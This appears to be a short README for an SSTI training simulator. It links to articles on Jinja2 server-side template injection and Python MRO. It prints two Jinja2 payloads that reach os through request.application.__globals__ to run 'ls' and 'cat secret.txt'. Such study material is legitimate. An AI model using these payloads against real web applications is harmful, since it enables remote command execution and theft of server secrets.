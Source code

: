 # ssti_simulator helpful links and example payload

## Remote Code Execution through SSTI `request.application`
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

{{ request.application.__globals__.__builtins__.__import__('os').popen('ls').read() }}

{{ request.application.__globals__.__builtins__.__import__('os').popen('cat secret.txt').read() }}  

## SSTI Cheat Sheet
https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti

## Python MRO explained
https://www.educative.io/edpresso/what-is-mro-in-python
